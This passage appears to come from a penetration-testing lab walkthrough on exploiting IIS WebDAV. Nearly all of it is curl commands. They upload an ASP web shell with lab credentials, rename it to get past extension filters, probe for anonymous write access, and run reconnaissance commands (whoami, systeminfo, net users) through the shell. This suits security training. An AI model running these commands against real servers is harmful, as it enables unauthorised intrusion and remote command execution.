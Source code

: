 ### 3. File Extension Bypass Techniques

#### IIS-Specific Bypasses
```bash
# Upload as .txt then move to .asp
curl -X PUT --data-binary @shell.asp \
  --user bob:password_123321 \
  http://demo.ine.local/webdav/shell.txt

curl -X MOVE --user bob:password_123321 \
  -H "Destination: /webdav/shell.asp" \
  http://demo.ine.local/webdav/shell.txt
```

#### Alternative Extensions for IIS
```bash
# Try various ASP extensions
for ext in asp asa cer aspx; do
  curl -X PUT --data-binary @webshell.asp \
    --user bob:password_123321 \
    http://demo.ine.local/webdav/shell.$ext
done
```

### 4. Authentication Bypass Techniques
```bash
# Test for anonymous write access
curl -X PUT --data-binary @test.txt http://target.com/webdav/test.txt

# Try different authentication methods
curl -X OPTIONS --user lowpriv:password http://target.com/webdav/

# Check for dangerous method exposure without authentication
curl -X OPTIONS http://target.com/webdav/
```

---

## 🎯 Post-Exploitation Activities

### System Reconnaissance
```bash
# Execute commands via uploaded webshell
curl "http://demo.ine.local/webdav/shell.asp?cmd=whoami"
curl "http://demo.ine.local/webdav/shell.asp?cmd=hostname"  
curl "http://demo.ine.local/webdav/shell.asp?cmd=systeminfo"
curl "http://demo.ine.local/webdav/shell.asp?cmd=ipconfig"
```

### Privilege Escalation Assessment
```bash
# Check current privileges  
curl "http://demo.ine.local/webdav/shell.asp?cmd=whoami+/priv"

# Look for local users
curl "http://demo.ine.local/webdav/shell.asp?cmd=net+users"

# Check system information
curl "http://demo.ine.local/webdav/shell.asp?cmd=systeminfo"

# Look for installed software
curl "http://demo.ine.local/webdav/shell.asp?cmd=wmic+product+get+name"
```
